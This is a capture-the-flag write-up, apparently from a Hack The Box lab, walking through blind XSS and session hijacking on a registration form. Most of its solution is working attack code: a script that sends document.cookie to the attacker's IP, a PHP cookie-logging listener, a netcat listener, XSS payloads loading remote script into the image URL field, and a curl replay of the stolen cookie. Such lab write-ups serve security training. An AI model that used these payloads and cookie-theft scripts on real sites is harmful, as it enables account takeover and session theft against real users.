


## Session Hijacking

- Most modern web applications use cookies to maintain session management of the user.
- The cookies maintain the user state information and the users can login to their account without password even after a long time.
- If hackers somehow get the cookie, then can easily access the user account without needing any password.
- This entire process can be called Session Hijacking (aka Cookie Stealing) attack.


## Blind XSS 

- Occurs when the vulnerability is triggered in a page where we don't have access.
- Blind XSS vulnerabilities usually occur with forms only accessible by certain users (e.g., Admins). Some potential examples include:
	- Contact Forms
	- Reviews
	- User Details
	- Support Tickets
	- HTTP User-Agent header

---
## Questions and Solutions


- Try to repeat what you learned in this section to identify the vulnerable input field and find a working XSS payload, and then use the 'Session Hijacking' scripts to grab the Admin's cookie and use it in 'login.php' to get the flag.
	- **HTB{redacted}**


Visit the  `<target IP>/hijacking/index.php` . Below is the frontend of the target web application.



After entering the details we hit Register we get the below message.



This indicates we will not be able to see how our input will be handled and probably some admin panel will have access to the registered data. I was also unable to find our the XSS vulnerability type using `xsstrike.py` since I am not authorized to access the admin panel so we probably need to load an external script in the `imgurl` part so that we can get the target's cookie.

Create `script.js` and paste the below code inside the file.

```js
document.location='http://10.10.15.33/index.php?c='+document.cookie;
```

The IP address inside the `script.js` is your attack machine's IP address. You may have noticed `index.php` part, so now we need to create `index.php` file and paste the below php cod in that file.

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

The IP address here is your Victim machine's IP address. The php script will take the cookie value in the `c` parameter and then store that value inside the **cookies.txt** file. Create a temporary directory at `/tmp` and move the `index.php` and `script.js` there.

Setup `netcat` listener so that we can confirm whether the application is vulnerable to XSS or not. If vulnerable then `netcat` will receive the response.

```bash
nc -lvnp 80
```

Go back to the Registration form and paste the try all the below payloads for each registration input fields to find out which input field is vulnerable to XSS. 

```html
<script src="http://[OUR_IP]/"></script>
'><script src=http://[OUR_IP]></script>
"><script src=http://[OUR_IP]></script>
```

After testing the above 3 payloads. I found the below one to only workout. The IP address is of course is our Attack IP address. 

```html
"><script src=http://10.10.15.33></script>
```

**Tip: replace the IP with individual input field names to accurately understand which field is vulnerable to XSS.** I myself did the same and as you clearly below output I understood that the **Image URL** input field was vulnerable to XSS.

```bash
nc -lvnp 80
listening on [any] 80 ...
connect to [10.10.15.33] from (UNKNOWN) [10.129.234.166] 40730
GET /img HTTP/1.1
Host: 10.10.15.33
Connection: keep-alive
User-Agent: HTBXSS/1.0
Accept: */*
Referer: http://127.0.0.1/
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```

Now before session hijacking injection start the php listener.

```bash
sudo php -S 0.0.0.0:80
```

Paste the below payload inside the **image URL** input field along with the data in the respective input fields in the webpage and press **Register**.

```html
"><script src=http://10.10.15.33/script.js></script>
```

The listener should receive the incoming requests and you should get your cookie inside the **cookies.txt** file. I then use the cookie value in the `<target IP>/hijacking/login.php` page to get the flag.

```bash
curl -H 'Cookie: cookie=c00k1355h0u1d8353cu23d' http://10.129.234.166/hijacking/login.php
```